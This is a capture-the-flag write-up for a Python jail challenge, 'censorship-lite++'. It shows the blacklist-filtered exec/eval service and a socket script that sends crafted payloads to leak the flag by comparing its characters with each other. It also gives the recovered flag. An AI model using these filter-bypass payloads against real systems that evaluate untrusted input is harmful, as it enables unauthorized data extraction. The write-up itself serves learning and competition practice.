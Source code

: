 # censorship-lite++

you may want to read my [censorship-lite](https://github.com/quasar098/ctf-writeups/tree/main/amateursctf-2023/censorship-lite) writeup if you havent already (for background + better understanding)

## problem

![image](https://github.com/quasar098/ctf-writeups/assets/70716985/65b625a5-31fd-44c4-9dbf-91f4ac241070)

main.py
```py
#!/usr/local/bin/python
from flag import flag

for _ in [flag]:
    while True:
        try:
            code = ascii(input("Give code: "))
            if any([i in code for i in "lite0123456789 :< :( ): :{ }: :*\ ,-."]):
                print("invalid input")
                continue
            exec(eval(code))
        except Exception as err:
            print("zzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzz")
```

## solution

taking a look at allowed keywords, we get these:

```
>>> [code for code in dir(__builtins__) if not any([i in code for i in "lite0123456789 :< :( ): :{ }: :*\ ,-."])] 
['EOFError', 'IOError', 'LookupError', 'OSError', 'TabError', '__doc__', 'abs', 'any', 'chr', 'hash', 'map', 'max', 'ord', 'pow', 'round', 'sum', 'vars']
```

we barely have anything to use, can't even call any functions, so the above is (mostly, you'll see why not fully) useless

luckily, we can still create numbers by adding booleans together, and we can still create booleans because `func==func` is true always.

we don't have access to parenthesis, but we can emulate them using lists and then getting the 0th index of the list by using <br>
`[<thing>][vars!=vars]`. this is equivalent to `(<thing>)`

my first solution was to compare parts of the flag with characters that we are allowed to use (e.g. `"a"[flag[0]=="a"]`, then check if error), 
but i was in disbelief at how many characters were not allowed to be printed, so we could not check them to see if they were in the flag

i was able to deduce `amateursCTF{??_?????_??????_????s_???_??_??gh?_??gh?_??_flag_???_the_??gh?_????d_??_?????s?_??v??}` by checking chars that were not allowed in the flag

my realization came eventually that we could compare letters in the flag to each other, instead of to string literals we make<br>
what i mean is from `"a"[flag[0]=="a"]` to `"a"[flag[0]==flag[2]]`

if the output is an error (prints zzzzzzz), then we know that those two characters are equal

then i used intuition and guesswork, along with [crossword solver](https://www.crosswordsolver.org/) to deduce the flag

```py
import socket
from time import sleep
from string import printable as allch

HOST = "amt.rs"
PORT = 31672

chars = "abcdfghjkmnopqrsuvwxyz"
chars += chars.upper()
chars += "_{}.:-=+[]()*!@#$%^&<>,./?"


printable = ""

for _ in allch:
    if _ not in "lite0123456789<:(){}*\\,-.\"' ":
        if 32 < ord(_) < 128:
            printable += _


def get_num(v):
    return "+".join([f"[vars==vars][vars!=vars]"] * v)


def get_char_payload(index2: int, index3):
    thing2 = "+" if index2 else ""
    thing3 = "+" if index3 else ""
    return f'"a"[_[[vars==vars][vars!=vars]%[vars==vars][vars!=vars]{thing2}{get_num(index2)}]==' \
           f'_[[vars==vars][vars!=vars]%[vars==vars][vars!=vars]{thing3}{get_num(index3)}]]'


total = ""
with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.connect((HOST, PORT))
    s.recv(1024)
    for i2 in range(98):
        for i3 in range(i2, 98):
            if i3 == i2:
                continue
            pl = get_char_payload(i2, i3)
            s.send((pl + "\n").encode('ascii'))
            sleep(0.01)
            if "zzzz" in s.recv(1024).decode('ascii'):
                print(i2, "==", i3)

# a m a t e u r s C T F { l e _ e l i t e _ l i t  t l e _ t i l e s _ l e t _ l e _ l i g h t _ l i
# 0 1 2 3 4 5 6 7 8 9 1011121314151617181920212223 24252627282930313233343536373839404142434445464748
# g h t _ l e _ f l a g _ t i l _ t h e _ l i g h  t _ t i l e d _ l e _ e l i t i s t _ l e v e l }
# 495051525354555657585960616263646566676869707172 73477576777879808182838485868788899091929394959697
```

we get the flag now
